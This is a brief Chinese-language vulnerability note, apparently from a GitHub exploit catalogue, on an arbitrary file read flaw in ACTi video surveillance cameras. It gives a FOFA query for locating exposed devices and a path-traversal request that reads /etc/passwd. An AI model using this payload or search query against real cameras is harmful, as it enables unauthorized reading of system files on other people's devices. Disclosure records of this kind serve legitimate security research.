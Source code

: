 # ACTI 视频监控 images 任意文件读取漏洞

## 漏洞描述

ACTI 视频监控 存在任意文件读取漏洞

## 漏洞影响

```
ACTI摄像头
```

## FOFA

```
app="ACTi-视频监控"
```

## 漏洞复现

登录页面如下

![](./images/202202140926386.png)

使用Burp抓包

```plain
/images/../../../../../../../../etc/passwd
```

![](./images/202202140926873.png)
